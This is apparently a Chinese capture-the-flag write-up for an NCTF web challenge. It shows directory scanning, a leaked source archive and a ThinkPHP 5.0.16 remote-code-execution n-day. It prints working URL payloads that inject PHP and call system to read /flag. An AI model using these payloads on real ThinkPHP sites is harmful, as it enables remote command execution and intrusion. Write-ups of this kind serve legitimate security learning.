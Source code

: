 NCTF-摆就完事了1 writeup

首次访问题目环境显示403 Forbidden
![web-1.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.1.png)

先上dirsearch扫一波目录，看看有啥东西：

![web-1.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.2.png)


发现有源码的压缩包，（还有个DS_Store文件泄漏，不过这里都有源码了。。），下载下来看看：

![web-1.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.3.png)

tp的框架，emm,先看下版本，直接添加路径致报错查看版本号

![web-1.4](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.4.png)

tp5.0.16,这个版本的tp有rce的nday,


尝试添加默认路由

`/public/index.php/index/index/index?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>`

`/public/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=cat${IFS}/flag`

![web-1.5](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.5.png)


查看flag:

`<?php%20system("cat /flag");?>` `cat${IFS}/flag`

![web-1.6](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.6.png)


![web-1.7](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.7.png)
